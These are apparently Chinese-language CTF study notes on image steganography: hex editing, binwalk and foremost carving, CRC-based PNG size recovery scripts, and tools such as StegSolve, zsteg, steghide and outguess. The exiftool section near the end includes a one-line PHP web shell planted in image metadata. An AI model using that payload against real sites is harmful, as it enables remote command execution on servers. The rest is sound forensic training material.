




png
jpg
gif
bitmap(.bmp)，一般是010的bmp模板改位图高度
图片隐写工具那些事：<https://cloud.tencent.com/developer/article/2069964>
^
扔010，十六进制搜66 00 6或搜{，f，找flag.
^
根据文件头，改后缀看图片中flag

010，工具，找两个文件二进制不同

010, 编辑粘贴，16进制转文件

^
^
是图片，但看文件头不能知道类型
拖入010，工具，16进制运算，二进制取反，还原图片。
拖入010，工具，16进制运算，二进制异或 操作数，还原图片。

```
f=open('misc5.png','rb')
d=f.read() #d就是文件内容，d是bytes类型
with open('wuwuwu.png','wb') as ff:
    for dd in d:
        ff.write(bytes([dd^0x50])) 
```
^
## **GIF**
分析图片每一帧，每一帧都要看，有可能特别的下载，看到二维码扫码获取flag
gif扔到ps中，右下角有逐帧，点眼睛查看。
或使用StegSolve工具分析-FrameBrowser
或Kinovea视频帧 暂停查看
或在线工具<https://uutool.cn/gif2img/>

GIF间隔藏01，kali中：
```
sudo apt-get install imagemagick
identify -format "%T " misc39.gif > 1.txt
可能是7位的01,7位一字符
```
^
## **文件融合：png图片融合zip隐写**
用010打开一张图片png,发现里面还有zip的文件头(504B0304,ascii字符常见有PK)，去掉png的16进制数据，将.png改为.zip。即可得到zip。

另外，两个文件融合的中间处，也可能隐藏信息。
^
**kali里的binwalk命令工具**
文件分析是否有融合，和分离。
Binwalk是Linux下用来分析和分离文件的工具，可以快速分辨文件是否由多个文件合并而成，并将文件进行分离。如果分离成功会在目标文件的目录。有压缩包自动解压同目录下生成一个形如_文件_extracted的文件目录，目录中有分离后的文件。
分析：
binwalk 'zip.jpg'
分离：


sudo binwalk --run-as=root -e zip.png


sudo binwalk --run-as=root -e -j 0x74DFE /root/桌面/zip.jpg
sudo binwalk --run-as=root -e -C /output/directory /root/桌面/zip.jpg

**foremost文件分离**
如果binwalk无法正确分离文件，可以使用foremost，将目标文件复制到kali中，成功执行后，会在目标文件的文件目录下生成我们设置的目录，目录中会按文件类型分离出文件。有压缩包不会自动解压
用法：foremost 文件名 -o 输出目录名

>有时候binwalk识别有内容、binwalk、foremost都提取不出来，用010手动提取。 
>binwalk、foremost提取的文件压缩包有损害，用zsteg工具提取。


^
## **PNG图片宽高改小隐写**
010打开左下角报CRC错误
使用循环冗余校验（CRC）来检测图像是否被篡改，并找回原来值。
python代码找回原来值宽高，使用010editor修改回来(高度可以直接修改很大，宽度不能)。
```
import struct
import binascii

crcbp = open("flag.png", "rb").read()  
for i in range(2000):     
    for j in range(2000):
        data = crcbp[12:16] + struct.pack('>i', i)+struct.pack('>i', j)+crcbp[24:29]
        crc32 = binascii.crc32(data) & 0xffffffff
        if(crc32 == 0x889C2F07):   # 自行更改crc值
            print(i, j)
            print('hex:', hex(i), hex(j))
```

或直接使用工具解：PNG图片宽高一把梭.exe

对于jpg图片改高：
可以先右键属性查看图片详细详细，看到目前图片高为150，十六进制为96，则在 010editor搜索96的位置第一个，修改00 96为01 96。
宽度可以用下面的脚本遍历改
```
import zlib
import struct
# jpg宽度大于990的其中一张
filename = "misc35.jpg"
with open(filename, 'rb') as f:
    all_b = f.read()
    #w = all_b[159:161]
    #h = all_b[157:159]
    for i in range(991,1200):
        name = str(i) + ".jpg"
        f1 = open(name,"wb")
        im = all_b[:159]+struct.pack('>h',i)+all_b[161:]
        f1.write(im)
        f1.close()
```


gif改高：
用010模板，struct DATA Data下的struct 1IMAGEDESCRIPTOR可以改



^
^
## **PNG LSB隐写**
>LSB全称为 least significant bit,是最低有效位的意思。Lsb图片隐写是基于lsb算法的一种图片隐写术,以下统称为lsb隐写,这是一种常见的信息隐藏方法。当然关于图像的隐写的方法有很多,统称为隐写术, lsb隐写很实用,算法简单,能存储的信息量也大,是CTF比赛中的常客。

使用StegSolve LSB隐写工具
<https://blog.csdn.net/weixin_43639682/article/details/113857310>
1、常规
```
点击左右按钮，看看在什么颜色为0的时候有隐藏的画面。
再点击DataExtract，设置对应颜色为0，选择LSB，预览是什么文件头，再对应保存为txt或png。

DataExtract一般选择R=0 G=0 B=0，再选择BitOrder为MSB还是LSB，
点击预览就能看到文件头信息，文件可能为zip,png,txt等。
```
2、如果信息是竖向的，选择column和BRG

3、
```
点击左右按钮，看看在什么颜色的值有信息。
再点击DataExtract，勾选对应颜色，如红色R 76543210全✓上，预览获取到flag。
```

工具其他功能
```
stegsolve的功能：
file format:文件格式，有的时候flag也可能在这里。
data extract:数据提取，Isb隐写可以用到，遇到Red plane O、Green plane O、Blue plane O，它们为o时是空白或黑色或与其它页面有很大不同，就要注意了，很有可能存在lsb隐写，一般拉到o，preview即可。
stereogram solver:立体图解算器，这个功能可以从不同通道去分析图片。
Frame Browser:帧浏览器，主要是对GIF之类的动图进行分解，动图变成一张张图片，便于查看。
image combiner：图像组合器，一般用于图像组合，默认的xOR即可看到flag。
```

^
## **zsteg提取PNG的LSB隐写**
一个比StegSolve更方便的工具—zsteg
工具 zsteg 用来检测 PNG 和 BMP 中隐藏数据的工具可以快速提取隐藏信息。
```
把图片与工具放在一起，输入命令
zsteg cyberpunk.png  //得到flag。
zsteg -a flag11.png   //所有数据。
zsteg --lsb 1.png

导出数据：
zsteg -E "extradata:0" 30.png > 30.zip


提取该通道图片
zsteg -e b8,a,lsb,xy  文件.png -> out.png
```
支持如下：
```
1. LSB steganography in PNG&BMP 
2. zlib-compressed data
3. OpenStego
4. Camouflage 1.2.1
5. LSB with The Eratosthenes set
6. MSB
```
安装使用，借助kali里的gem安装
>Gem 是 Ruby 语言的包管理器
<https://blog.csdn.net/Amherstieae/article/details/107512398>


^
## **加密LSB隐写**
kali安装使用
<https://blog.csdn.net/Swaynie/article/details/128344103>
```
root@kali:~/cloacked-pixel# python2 lsb.py extract nvshen.png res.txt 123456

root@kali:~/cloacked-pixel# cat res.txt
flag{jsy09-wytg5-wius8}
```

^
## **普通盲水印隐写**
一般PNG，使用工具解，加密的图看不出差异，可以解密图片中的盲水印。
```
BlindWatermark-v0.0.3-windows-x86_64.jar
解码:
java -jar BlindWatermark.jar decode -c 1.jpg 1_1.jpg
```
或使用图形化工具WaterMark.exe


^
## **二维码隐写**
<https://merricx.github.io/qrazybox/>
使用擦除二维表左边黑块，在点击tools查看二维码额外信息，如二维码扫码后的文字内容，隐藏内容。


^
# =====JPG==============

## **JPG分析 Stegdetect**
Stegdetect主要用于分析JPEG文件，可以检测到通过JSteg、JPHide、OutGuess、Invisible Secrets、F5、appendX和Camouflage等
<https://blog.csdn.net/qq_53079406/article/details/124596878>
```
stegdetect.exe -tjopi -s 10.0 [file]
```
stegdetect的敏感度（通过-s参数指定，设定敏感度为2.0）


^
## **JPG LSB隐写图片**
JPHIDE 藏
JPSEEK 解
下载图片，Windows使用集成jphs（Jphswin.exe）工具，点击Seek（无密码直接点，有密码输入），得到一张新的图片保存为.jpg。
点击Hide，得到保存为.txt文件。
介绍：<https://blog.csdn.net/qq_53079406/article/details/123608345>

## **JPG steghide隐写**
可加密码隐写txt到图片中，也可不加密码。
从图片中提取txt。
kali中安装apt-get install steghide
steghide extract -sf good_已合成.jpg

## **JPG刷新F5隐写**
kali中安装F5-steganography 工具
git clone https://github.com/matthewgao/F5-steganography
解密的时候输入：
java Extract /图片的绝对路径 [-p 密码] [-e 输出文件]
java --add-exports java.base/sun.security.provider=ALL-UNNAMED Extract '/root/桌面/Misc.jpg'
提取出output.txt可能是个zip。

## **JPG outguess隐写**
关键词：jpg  猜测
outguess解密图片，输入密码，可提取出TXT。
outguess -k '密码' -r mmm.jpg flag.txt 

## **图片exif信息隐写**
Windows一般看图片属性即可。
<https://blog.csdn.net/qq_41453285/article/details/101765775>
kali使用
```
exiftool *| grep flag   查看当前目录中文件中含有flag信息的内容
exiftool xx.png   查看xx.png的所有元数据
exiftool poc.jpg -documentname="<?php echo exec(\$_POST['cmd']); ?>" 图片中写木马
exiftool -ThumbnailImage -b misc22.jpg > 1.jpg  导出缩略图，如果有Thumbnail Image，缩略图也可以使用MagicEXIF工具查看。

```